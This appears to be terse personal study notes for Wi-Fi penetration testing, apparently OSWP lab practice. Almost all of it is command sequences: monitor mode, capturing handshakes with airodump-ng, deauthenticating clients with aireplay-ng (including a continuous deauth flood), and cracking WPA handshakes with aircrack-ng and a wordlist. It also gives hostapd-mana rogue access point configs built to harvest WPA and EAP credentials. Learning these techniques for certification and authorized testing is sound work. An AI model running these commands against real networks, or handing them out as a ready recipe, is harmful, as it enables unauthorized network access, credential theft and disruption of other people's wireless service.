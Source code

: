 https://null-byte.wonderhowto.com/how-to/hack-wi-fi-hunting-down-cracking-wep-networks-0183712/


ctrl_interface=/var/run/wpa_supplicant
ap_scan=1

network={
    ssid="Your_Network_Name"
    psk="Your_Network_Password"
    key_mgmt=WPA-PSK
}


sudo wpa_supplicant -B -c /path/to/wpa_supplicant.conf -i wlan0


sudo airmon-ng check kill

sudo airmon-ng start wlan0

sudo airodump-ng wlan0

sudo airodump-ng -c 1 -w wpa --essid OSWP --bssid 10:FE:ED:xx:xx:xx wlan0

sudo aireplay-ng -0 1 -a 10:FE:ED:D1:xx:xx -c 30:07:4D:57:xx:xx wlan0  // -c= client

sudo aircrack-ng -w hash wpa-01.cap

sudo aircrack-ng -w /usr/share/john/password.lst -e <ssid> -b <mac> wpa-01.cap

## connect ap via terminal


nano wpa_supplicant.conf
```
network={
  ssid="<ESSID>"
  psk="<PSK>"
  key_mgmt=WPA-PSK
}

```

## connect

```
$ sudo wpa_supplicant -B -i <wireless interface> -c wpa_supplicant.conf

```
for ip address from dhcp

```
$ sudo dhclient <wireless interface>
```



---------------------------------------------------


cat Mostar-mana.conf

```
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx
```

```
# interface and driver settings
interface=wlan0
driver=nl80211

# wireless network settings
ssid=MANA-WPA2
channel=6

# authentication settings
auth_algs=3
wpa=2
wpa_key_mgmt=WPA-EAP
rsn_pairwise=CCMP

# EAP settings
eap_server=1
eap_user_file=/etc/hostapd-mana/eap_users
ca_cert=/etc/hostapd-mana/certs/ca.pem
server_cert=/etc/hostapd-mana/certs/server-cert.pem
private_key=/etc/hostapd-mana/certs/server-key.pem
dh_file=/etc/hostapd-mana/certs/dh
```

sudo hostapd-mana Mostar-mana.conf 

sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon

aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst
